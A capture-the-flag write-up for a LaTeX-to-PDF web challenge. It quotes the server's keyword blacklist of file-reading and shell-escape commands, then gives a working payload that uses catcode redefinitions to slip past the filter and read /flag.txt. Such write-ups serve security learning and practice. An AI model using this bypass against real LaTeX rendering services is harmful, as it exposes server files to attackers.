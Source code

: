 # Latex

When visiting the website, we see it’s a simple form enabling us to input LaTeX code and get a PDF file showing the output:

![Screenshot from 2023-10-13 22.56.08.png](.media/Screenshot_from_2023-10-13_22.56.08.png)

When reading the source code, we come across `main.go`, which holds the LaTeX logic of the website. `main.go` holds a list of commands that it considers as insecure:

```go
blacklist = []string{"\\input", "include", "newread", "openin", "file", "read", "closein", "usepackage", "fileline", "verbatiminput", "url", "href", "text", "write", "newwrite", "outfile", "closeout", "immediate", "|", "write18", "includegraphics", "openout", "newcommand", "expandafter", "csname", "endcsname", "^^"}
```

So normally when we are talking filters that are used ******************before****************** the code has actually been executed, we consider:

- Maybe we can bypass the filter by encoding the payload?
- Maybe we can insert some characters that make the payload pass the filter, but LaTeX ignores?

We tried both these without digging too much, didn’t work.

Another thing we saw was:

> Why does `\input` include the backslash in the blacklist, while other commands don’t? Maybe we can find a way to include something between \ and input to make it pass the filter.
>

Then I came across this thing called [catcode](https://en.wikibooks.org/wiki/TeX/catcode), a command that essentially changes the “meaning” of a character. A simple PoC showed that it worked:

```latex
\documentclass[12pt]{article}
\begin{document}
\catcode`\@=0
@underline{hello}
\end{document}
```

![Screenshot 2023-10-13 at 23-07-20 http __localhost 52132_.png](./media/Screenshot_2023-10-13_at_23-07-20_http___localhost_52132_.png)

**The challenges we needed to solve were:**

- Execute `\input{/flag.txt}` by adding a char in-between or changing the meaning of `\`
- Change the meaning of `{`, `_` and `}` since they are included in the flag
- `{` and `}` still need to be available though, because they are used for the `{/flag.txt}` part

I ended up with the following payload:

```latex
\documentclass{article}
\begin{document}
\catcode`\@=0
\catcode`\{=9
\catcode`\}=9
\catcode`\_=13
\catcode`\?=1
\catcode`\!=2
@input?/flag.txt!
\catcode`\{=1
\catcode`\}=2
\catcode`\_=8
\catcode`\$=3
\catcode`\?=12
\catcode`\!=12
\end{document}
```

Which gave us the flag:

![Screenshot 2023-10-13 at 23-12-52 http __ctf.tcp1p.com 52132_.png](./media/Screenshot_2023-10-13_at_23-12-52_http___ctf.tcp1p.com_52132_.png)

Flag: `TCP1P{bypassing_latex_waf_require_some_latex_knowledge}`
